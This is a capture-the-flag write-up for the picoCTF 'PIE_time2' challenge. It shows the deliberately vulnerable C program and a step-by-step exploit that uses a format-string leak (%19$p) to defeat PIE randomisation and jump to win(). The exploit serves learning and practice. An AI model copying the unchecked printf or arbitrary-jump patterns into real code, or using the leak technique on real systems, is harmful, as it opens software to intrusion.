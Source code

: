# PIE_time2 Challenge Solution

## Challenge Overview

This challenge involves a Position Independent Executable (PIE) binary that has a format string vulnerability and allows jumping to arbitrary memory addresses. The goal is to call the `win()` function to get the flag, but since PIE randomizes the base address of the program, we need to leak an address first and calculate the win function location.

## Understanding the Code

```c
// filepath: /home/richie/workspace/pico/final_writeoff/binary_exploiration/PIE_time2[medium]/vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name: ");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
  return;
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

## Vulnerabilities

There are two key vulnerabilities in this code:

1. **Format String Vulnerability**: 
   ```c
   printf(buffer);  // The user input is directly passed to printf
   ```

2. **Arbitrary Jump**:
   ```c
   void (*foo)(void) = (void (*)())val;
   foo();  // Jumps to any address we provide
   ```

## Exploitation Steps

### 1. Identify the Offsets

We need to identify important offsets:
- The `win()` function is at some offset from the program base
- The label `main_1441` is at offset 0x1441 from the base

### 2. Leak an Address Using Format String

We can use the format string vulnerability to leak an address from the stack. Specifically, `%19$p` will print the return address for the `main` function, which corresponds to the `main_1441` label.

```
Enter your name: %19$p
0x55dcded5a441  // Example leaked address
```

### 3. Calculate the Base Address

We know that the leaked address (0x55dcded5a441 in this example) corresponds to the `main_1441` label, which is at offset 0x1441 from the base address.

```
base_address = leaked_address - 0x1441
base_address = 0x55dcded5a441 - 0x1441 = 0x55dcded59000
```

### 4. Calculate Win Function Address

The `win()` function is at offset 0x136a from the program base (you would determine this through binary analysis or from the objdump).

```
win_address = base_address + 0x136a
win_address = 0x55dcded59000 + 0x136a = 0x55dcded5a36a
```

### 5. Jump to Win Function

When prompted for an address to jump to, we provide the calculated address of the `win()` function:

```
enter the address to jump to, ex => 0x12345: 0x55dcded5a36a
```

The program then executes the `win()` function, which prints the flag.

## Full Exploit Process

1. Run the program
2. Enter `%19$p` as the name to leak a stack address
3. Calculate:
   - Program base address = leaked_address - 0x1441
   - Win function address = base_address + 0x136a
4. Enter the calculated win function address
5. Get the flag!

## Example Execution

```
Enter your name: %19$p
0x55dcded5a441 enter the address to jump to, ex => 0x12345: 0x55dcded5a36a
You won!
picoCTF{flag_contents_here}
```
